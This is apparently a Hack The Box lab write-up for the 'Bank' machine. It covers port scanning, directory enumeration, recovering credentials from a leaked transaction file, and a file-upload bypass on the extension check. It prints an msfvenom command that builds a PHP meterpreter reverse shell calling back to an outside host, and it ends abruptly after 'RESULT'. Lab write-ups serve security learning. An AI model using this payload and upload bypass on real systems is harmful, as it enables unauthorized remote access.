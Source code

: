 # Bank
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/71c41239-7326-462d-9f10-0ee1ebf1d1d8)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.29 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-30 00:24 PDT
Nmap scan report for 10.10.10.29
Host is up (0.029s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08eed030d545e459db4d54a8dc5cef15 (DSA)
|   2048 b8e015482d0df0f17333b78164084a91 (RSA)
|   256 a04c94d17b6ea8fd07fe11eb88d51665 (ECDSA)
|_  256 2d794430c8bb5e8f07cf5b72efa16d67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.32 seconds
```

1. Since the machine is running a web application, let's run gobuster.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6f2049b7-a312-46c4-b701-6910f6048bd4)


2. Interesting there's an upload directory, anyway let's open the web app.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6fb85d14-3f41-4138-98e9-a8e600266a05)


3. Already tried several sqli, it seems the login page is not vulnerable to sqli.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/60203418-ab63-4ed7-bbff-3fbbd563e1b4)


4. Let's check the **balance-transfer**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d4abdeee-a79f-41cc-af1c-7f22747f9b59)


5. Found many hashed or encrypted (?) transaction, but the odd is, there is one transaction with smaller size.
6. The smaller size might indicate failed hash or encryption.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d359f3f-5ba4-4f73-a18b-a7adeb5ed28e)


> CHECKING THE SMALLER SIZE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3f953452-e518-420b-a4fb-a0af0b8f5d37)


7. Let's use the cred to login!

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8ecfe418-37e8-4773-be37-3abe6f5fa1d7)


8. At the support option, found a file upload. This could be our interest.


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2d60b788-93a2-4749-8f1f-1c09e42578ab)


> PAGE SOURCE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ca5a1cad-bf5b-4c8c-a88d-92477279b8ca)


9. Turns out it is, it does not sanitize what's inside the file, it just validates the extension must be .htb.
10. Knowing this we can send our PHP payload for reverse shell.

> USING TEMPLATE FROM MSFVENOM

```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.26 lport=1337 -f raw > reverse_shell.htb
```

11. Set a listener on port 1337, then upload the file.
12. Next, to trigger the reverse shell, let's opened the file we already within this endpoint --> `/uploads/reverse_shell.htb`.

> RESULT

aa


